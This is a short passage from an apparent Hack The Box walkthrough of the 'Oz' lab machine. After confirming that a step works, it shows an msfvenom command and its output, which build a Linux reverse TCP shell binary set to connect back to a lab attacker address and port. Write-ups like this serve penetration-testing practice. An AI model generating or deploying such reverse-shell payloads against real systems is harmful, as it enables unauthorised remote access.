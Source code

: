 Let's give it a shot.

<a class="image-popup">
![ee912d1f.png](/assets/images/posts/oz-htb-walkthrough/ee912d1f.png)
</a>

<a class="image-popup">
![938dd641.png](/assets/images/posts/oz-htb-walkthrough/938dd641.png)
</a>

Awesome. It works! Armed with this insight, let's generate a reverse shell with `msfvenom` like so.

```
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.13.52 LPORT=1234 -f elf -o rev
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: rev
```


[1]: https://www.hackthebox.eu/home/machines/profile/152
[2]: https://www.hackthebox.eu/home/users/profile/442
[3]: https://www.hackthebox.eu/home/users/profile/2686
[4]: https://www.hackthebox.eu/